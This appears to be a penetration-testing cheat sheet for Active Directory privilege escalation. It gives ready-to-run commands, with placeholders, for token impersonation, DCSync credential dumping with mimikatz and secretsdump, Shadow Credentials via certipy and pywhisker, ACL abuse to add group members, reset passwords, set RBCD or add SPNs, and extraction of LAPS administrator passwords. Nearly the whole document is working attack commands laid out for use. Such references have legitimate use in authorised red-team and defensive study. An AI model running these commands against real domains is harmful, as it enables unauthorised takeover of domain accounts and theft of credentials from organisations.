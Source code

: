 ## Token manipulation
```powershell
.\incognito.exe list_tokens -u + .\incognito.exe execute -c "<domain>\<user>" powershell.exe
impersonate_token <domain>\\<user>

cme smb <ip> -u <user> -p <password> -M impersonate 
```

## ACLs and ACEs permissions
aclpwn.py - https://github.com/fox-it/aclpwn.py

## DCsync (Domain Admins, Enterprise admins and DC hosts)
```
mimikatz lsadump::dcsync /domain:<target_domain> /user:<target_domain>\administrator
secretsdump '<domain>'/'<user>':'<password>'@'<domain_controller>'
```
## ShadowCredentials with ADCS
```
certipy shadow auto '-u <user>@<domain>' -p <password> -account '<target_account>'
pywhisker.py -d "FQDN_DOMAIN" -u "user1" -p "CERTIFICATE_PASSWORD" --target "TARGET_SAMNAME" --action "list"
```
## Groups 
```
membership, GenerigAll/WriteProperty or WriteProperty on group -> you can add a group member:
net group "<group>" <myuser> /add /domain
ldeep ldap -u <user> -p <pwd> -d <domain> -s ldap://<dc> add_to_group "CN=<user>,DC=<domain>" "CN=<group>,DC=<domain>"

WriteOwner on Group -> WriteDACL + WriteOwner, Give yourself Generic all -> owneredit.py -> dacledit.py
```

## Computers
```
GenericAll / GenericWrite
-> msDs-AllowedToActOnBehalf > RBCD
-> add Key Credentials > Shadow Credentials
```

## User
```
GenericAll / GenericWrite
-> change password - net user <user> <password> /domain
-> add SPN (target Kerberoasting) - targetedKerberoast.py -d <domain> -u <user> -p <pass>
-> add Key Credentials -> Shadow Credentials

ForceChangePassword
net user <user> <password> /domain
net rpc password <user> <password> -S <dc_fqdn>
```
## LAPS
```
Check in bloodhound who can read LAPS: MATCH p=(g:Group)-[:ReadLAPSPassword]->(c:Computer) RETURN p
Get-LAPSPasswords -DomainController <ip_dc> -Credential <domain>\<login> | Format-Table -AutoSize
foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}
cme ldap <dc_ip> -d <domain> -u <user> -p <password> --module laps
use post/windows/gather/credentials/enum_laps
```